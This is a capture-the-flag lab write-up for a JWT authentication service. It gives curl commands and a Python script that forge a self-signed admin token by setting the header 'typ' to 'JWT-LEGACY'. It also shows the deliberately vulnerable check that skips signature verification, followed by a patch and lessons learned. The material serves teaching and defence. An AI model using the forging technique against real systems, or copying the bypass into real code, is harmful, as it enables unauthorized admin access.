





# Service 8 — JWT Identity Portal

| | |
|---|---|
| **Service** | Service 8 — Internal Auth API (JWT Identity Portal) |
| **Category** | Web / Authentication — JWT Claim/Header Confusion |
| **Difficulty** | Medium |
| **Port** | `8008` |
| **Target** | `<target-ip>:8008` |
| **Author** | `<your-name>` |

---

## Synopsis

The internal SSO portal issues and validates JWTs for other
microservices. A "legacy compatibility" code path lets the token's own
`typ` header — a value the attacker controls — turn off signature
verification for that same token. Setting `typ` to `JWT-LEGACY` makes
the server accept an entirely self-signed, self-asserted admin token.

---

## 1. Enumeration

**Step 1 — Get a baseline employee token.**

```bash
curl -s http://<target>:8008/api/token | jq
```



Decode it (jwt.io or any JWT decoder) and inspect the header and
payload:

```json
// header
{ "alg": "HS256", "typ": "JWT" }
// payload
{ "sub": "employee_01", "role": "employee", "clearance": 1,
  "iss": "Internal Auth API", "aud": "employee-portal", "exp": ... }
```



**Step 2 — Confirm the obvious attempt fails.**

```bash
EMP=$(curl -s http://<target>:8008/api/token | jq -r .token)
curl -s -H "Authorization: Bearer $EMP" http://<target>:8008/api/admin/flag
```

```
{"message":"Insufficient privileges"}  (403)
```



A valid, correctly-signed employee token with `role: employee` is
rejected by the admin endpoint, as expected.

---

## 2. Foothold / Exploitation

**Step 3 — Forge an admin token with a different header `typ`.**

```bash
python3 - <<'EOF'
import jwt, time
payload = {
    "sub": "admin_user",
    "role": "admin",
    "clearance": 5,
    "iss": "Internal Auth API",
    "aud": "internal-admin",
    "exp": int(time.time()) + 999999999,
}
headers = {"typ": "JWT-LEGACY", "alg": "HS256"}
print(jwt.encode(payload, "any-key-you-like", algorithm="HS256", headers=headers))
EOF
```



**Step 4 — Submit the forged token.**

```bash
FORGED="<token from step 3>"
curl -s -H "Authorization: Bearer $FORGED" http://<target>:8008/api/admin/flag
```

**Result:**

```json
{"flag":"HS{jwt_legacy_header_claim_escalation}","message":"Administrator authenticated"}
```



---

## 3. Why the Service Is Exploitable

A JWT's trustworthiness comes entirely from its **signature** — a hash
of the header and payload computed with a secret key only the server
knows. If the signature doesn't match, nothing in the token can be
trusted, because an attacker could have written any header or payload
they wanted.

The bug is in `build_decode_options()`:

```python
if mode == "portal" and token_header.get("typ") == "JWT-LEGACY":
    options["verify_signature"] = False
```

This reads the token's own `typ` header — a value the *attacker
controls*, since they're the one writing the token — and uses it to
decide whether to check the signature at all. Set `typ` to
`"JWT-LEGACY"` and the server stops verifying the signature entirely.
Once that check is off, the payload is free-form: `role: admin`,
`clearance: 5`, `aud: internal-admin` — whatever
`validate_admin_claims()` wants to see.

The deeper issue: **the server let untrusted data (the token) decide
how much scrutiny that same untrusted data would receive.** The header
and payload are both just text the attacker typed; none of it means
anything until a signature — computed with a secret the attacker
doesn't have — proves the server actually issued it.

---

## 4. Remediation / Patch

**File:** `app.py`
**Function:** `build_decode_options(token_header, mode="strict")`

Delete the legacy bypass:

```python
# BEFORE (vulnerable)
def build_decode_options(token_header, mode="strict"):
    options = dict(DEFAULT_DECODE_OPTIONS)

    # Legacy SSO migration compatibility support for v1 internal tokens
    if mode == "portal" and token_header.get("typ") == "JWT-LEGACY":
        options["verify_signature"] = False

    return options
```

```python
# AFTER (patched)
def build_decode_options(token_header, mode="strict"):
    options = dict(DEFAULT_DECODE_OPTIONS)
    return options
```

Every token — regardless of its `typ` claim — now goes through
`DEFAULT_DECODE_OPTIONS`, which sets `"verify_signature": True`.

**Verify the patch:**

1. Re-run Step 3/4 above → should now return `401 Invalid token`.

2. Confirm legitimate flows still work: `/api/token` → `/api/verify`
   should still return `"valid": true` for a normal employee token.

---

## 5. Lessons Learned

- **A signature exists to make the token tamper-evident.** Any field
  read from a token *before* the signature is verified — including
  the header — must be treated as attacker-controlled, not as a
  trusted instruction.
- **Never let untrusted input decide its own validation strength.** A
  conditional that *weakens* a security check based on a value the
  attacker supplies is, functionally, a backdoor with an unlock
  password the attacker can set themselves.
- **"Legacy compatibility" code is a common place bugs hide.**
  Migration shims and backward-compatibility branches are frequently
  added under time pressure and rarely revisited — audit them with the
  same scrutiny as new code.
- **Defense in depth matters, but order matters more.** Even with
  `validate_admin_claims()` checking multiple fields (`role`, `aud`,
  `clearance`), none of those checks matter once the signature check —
  the one thing that proves the claims weren't just invented — is
  skipped.